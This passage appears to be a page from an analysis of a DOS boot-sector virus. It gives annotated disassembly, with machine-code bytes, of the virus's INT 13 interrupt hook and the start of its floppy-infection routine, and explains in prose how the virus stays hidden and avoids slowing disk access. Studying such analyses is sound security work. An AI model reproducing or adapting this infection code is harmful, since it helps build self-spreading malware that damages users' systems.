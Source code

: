 ```
002E: 75 03             JNZ     $0033                   ; Yes ... don't do anything
0030: E8 07 00          CALL    $003A                   ; Do any viral infection
0033: 58                POP     AX                      ; Restore original ...
0034: 1F                POP     DS                      ; ... incoming parameters
0035: 2E FF 2E 09 00    JMP     FAR [CS:$0009]          ; Execute the original INT 13
```

At this point, the Loader has long since finished its work; the virus is safe in the upper area of conventional memory. The virus has been "hooked into" INT 13 by 
remembering the original vector in its data-area and changing the INT vector to point to 0015. Location 0015 is then called by some poor, unsuspecting program needing 
disk access. The virus comes to life and does its thing (infecting floppies) and then silently passes the request on to the original handler. The calling program is 
none the wiser.

The virus passes all functions except reading or writing a sector on the floppy straight through to the original INT13 handler. When a floppy read or write occurs, 
the above section of code calls the following routine that infects the bootsector of the floppy if it isn't already infected -- but the jump is only taken if the 
lowest bit of location 0000:043F is off.

This bit represents the state of the floppy-drive's motor. If the bit is one, the drive is running. If the bit is zero, the drive is off. This is really a clever 
check that keeps the virus from taking action with every single sector read or write. Data is usually accessed as a stream of sectors. The first sector requested 
gets the motor going, and the motor continues to run while the remaining data is transferred. (Actually the motor continues to run for a few seconds after the 
last sector is accessed.) By watching the motor, the virus only takes effect on the first sector in a stream of sectors. Otherwise, the user would notice a terrible 
drop in performance for disk access. Again, this check is quite clever.

```
; Try to infect Drive A
;
003A: 53                PUSH    BX                      ; Save all ...
003B: 51                PUSH    CX                      ; ...
003C: 52                PUSH    DX                      ; ...
003D: 06                PUSH    ES                      ; ...
003E: 56                PUSH    SI                      ; ...
003F: 57                PUSH    DI                      ; ... registers
0040: BE 04 00          MOV     SI,$0004                ; 4 attempts at reading (motor warm up)
0043: B8 01 02          MOV     AX,$0201                ; Read one sector
0046: 0E                PUSH    CS                      ; Set ES to point ...
0047: 07                POP     ES                      ; ... to code segment
0048: BB 00 02          MOV     BX,$0200                ; Just past the virus in memory
004B: 33 C9             XOR     CX,CX                   ; Cyl 0, Sect 1 (shortly)
004D: 89 CA             MOV     DX,CX                   ; Head 0, Drive 0
004F: 41                INC     CX                      ; Now Cyl 1
0050: 9C                PUSHF                           ; *4 Set stack as if an interrupt
```

The infection process first preserves all the incoming parameters and sets up a call to the original INT13 to load the bootsector of the floppy into memory 
just after the virus. Note the PUSHF instruction at 0050. The original INT13 is an interrupt handler, and its last instruction is an RETI -- RETurn from Interrupt. 
Since the virus will be CALLing the routine, it must push the flags onto the stack to simulate an INT. Otherwise, too much information is popped off the stack 
with the RETI, and the CPU crashes.
